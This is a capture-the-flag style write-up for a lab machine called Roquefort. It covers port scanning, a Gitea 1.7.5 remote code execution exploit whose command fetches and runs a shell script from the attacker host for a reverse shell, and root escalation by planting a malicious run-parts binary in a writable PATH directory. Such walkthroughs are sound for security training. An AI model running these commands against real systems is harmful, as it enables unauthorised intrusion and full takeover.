 # Roquefort

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 3000 -Pn 192.168.157.67 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-16 10:40 +08
Nmap scan report for 192.168.157.67
Host is up (0.17s latency).
Not shown: 65530 filtered tcp ports (no-response)
PORT     STATE  SERVICE
21/tcp   open   ftp
22/tcp   open   ssh
2222/tcp open   EtherNetIP-1
3000/tcp open   ppp
```

FTP does not allow for anonymous logins.

### Web Enum -> Gitea RCE

Only port 3000 has a webpage:

<figure><img src="../../../.gitbook/assets/image (504).png" alt=""><figcaption></figcaption></figure>

In the bottom left, we can see the version, which is vulnerable to RCE:

```
$ searchsploit gitea 1.7.5
----------------------------------------------------------- ---------------------------------
 Exploit Title                                             |  Path
----------------------------------------------------------- ---------------------------------
Gitea 1.7.5 - Remote Code Execution                        | multiple/webapps/49383.py
----------------------------------------------------------- ---------------------------------
```

We can create any account, and then use these settings:

```
USERNAME = "test123"
PASSWORD = "test123"
HOST_ADDR = '192.168.45.196'
HOST_PORT = 3000
URL = 'http://192.168.157.67:3000'
CMD = 'wget http://192.168.45.196:21/shell.sh && bash shell.sh'
```

We would then get a reverse shell:

<figure><img src="../../../.gitbook/assets/image (1547).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Cronjob Path -> Root

`linpeas.sh` picked up that we can write to the Systemd PATH:

<figure><img src="../../../.gitbook/assets/image (490).png" alt=""><figcaption></figcaption></figure>

This means we just need to find some process from `root` that doesn't use the full PATH. I used `pspy64` to find such a process.

```
2023/07/15 22:55:01 CMD: UID=0    PID=13493  | run-parts --report /etc/cron.hourly 
```

`run-parts` should work.&#x20;

```
chloe@roquefort:/tmp$ which run-parts
/bin/run-parts
```

Since the `/bin` directory is the last in PATH, we can place our malicious binary within `/usr/local/bin` to be executed first.&#x20;

```bash
cd /usr/local/bin
wget 192.168.45.196:21/run-parts
chmod 777 run-parts
```

Then, start a listener port and wait for `root` to execute the binary:

<figure><img src="../../../.gitbook/assets/image (3443).png" alt=""><figcaption></figcaption></figure>
